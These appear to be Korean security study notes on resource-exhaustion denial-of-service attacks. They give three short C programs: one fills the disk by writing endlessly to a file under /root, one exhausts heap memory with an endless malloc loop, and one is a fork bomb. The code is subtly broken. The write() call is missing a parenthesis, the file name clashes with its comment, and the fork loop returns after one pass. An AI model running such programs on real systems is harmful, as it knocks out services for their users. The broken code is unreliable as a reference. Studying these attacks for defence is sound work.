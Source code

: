 ### 대응 방법

- 프로세스 목록 확인
- `H-IDS` 사용하여 탐지

시스템 자원 고갈 공격
---

시스템이 보유하고 있는 자원을 모두 선점하거나 모두 고갈하는 방식으로 수행된다.

> 서비스 거부 공격(DOS)라고도 부름

### 가용 디스크 자원 고갈 공격

```C
#include<unistd.h>
#include<sys/file.h>

void main(){
  int fd;
  char buf[1000];

  fd = creat("/root/termifile" ,0777);

  while(1){
    write(fd,buf,sizeof(buf); // tempfile 계속 써서 → 디스크 용량 고갈
  }
}
```

### 가용 메모리 자원 고갈 공격

```C
#include<stdio.h>

void main(){
  char *m; // 포인터 변수

  while(1){
    m = malloc(1000); // 동적 할당 → 힙 메모리 고갈
  }
}
```

### 가용 프로세스 자원 고갈 공격

```C
#include<unistd.h>

void main(){
  while(1){
    fork(); // 프로세스 반복 복제 → 가용 프로세스 고갈
    return 0;
  }
}
```
